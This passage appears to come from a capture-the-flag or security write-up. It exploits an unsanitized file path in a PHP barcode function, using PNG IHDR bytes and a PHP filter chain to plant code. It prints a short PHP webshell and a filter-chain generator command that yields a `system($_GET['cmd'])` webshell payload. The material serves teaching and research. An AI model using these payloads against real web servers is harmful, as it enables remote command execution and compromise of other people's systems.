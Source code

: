 With that said, this library basically gives us the ability to **write arbitrary files**, as the `$filepath` is not sanitized and validated at all! This means we should be able to write arbitrary PHP files into the file system, right? Well, yes. But we also need to somehow control its content.

Hmm... Can we control that? But PHP function `imagepng` outputs a PNG image, and the GD PHP library will strip out all the EXIF metadata, like comment. After researching, we can find this Synacktiv blog post: [Persistent PHP payloads in PNGs: How to inject PHP code in an image – and keep it there !](https://www.synacktiv.com/en/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there). In that blog post, it talked about how we can inject PHP code into a PNG image, while the image will still have the injected PHP code after processed by the GD library. 

This gives me an idea. Although we can't upload a PNG image, maybe we can somehow generate a PNG image with PHP code in it?

According to [PNG specification](http://www.libpng.org/pub/png/spec/1.2/PNG-Chunks.html#C.Summary-of-standard-chunks), the IHDR chunk has 4 bytes for the image width and 4 bytes for the image height. Since we can control the size of the PNG image via GET parameter `size` and `sizefactor`, maybe we can craft a very short PHP webshell using those bytes in the width and height field?

Unfortunately, the shortest PHP webshell is 15 bytes long, which well exceed the 8 bytes limit:

```php
<?=`$_GET[0]`;
```

Hmm... Is there any other approach?

Since we can control function `imagepng`'s output file path, maybe we can leverage PHP filter chain to inject our own PHP code?

```php
function barcode( $filepath = '', $text = '0', $size = '20', $orientation = 'horizontal', $code_type = 'code128', $print = false, $size_factor = 1 ) {
    [...]
    // Draw barcode to the screen or save in a file.
    if ( '' == $filepath ) {
        [...]
    } else {
        imagepng( $image, $filepath );
        imagedestroy( $image );
    }
}
```

## Exploitation

Armed with above information, we can use [PHP filter chain generator](https://github.com/synacktiv/php_filter_chain_generator) developed by Synackti. We can use this tool to generate a PHP filter chain that converts some of the raw bytes data in the PNG image into our own PHP code:

```shell
┌[siunam♥Mercury]-(/opt/php_filter_chain_generator)-[2025.02.26|20:10:22(HKT)]-[git://main ✔]
└> ./php_filter_chain_generator.py --chain 'AAAAAAA<?php system($_GET["cmd"]); ?>'
[+] The following gadget chain will generate the following code : AAAAAAA<?php system($_GET["cmd"]); ?> (base64 value: QUFBQUFBQTw/cGhwIHN5c3RlbSgkX0dFVFsiY21kIl0pOyA/Pg)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|[...]|convert.base64-decode/resource=php://temp
```
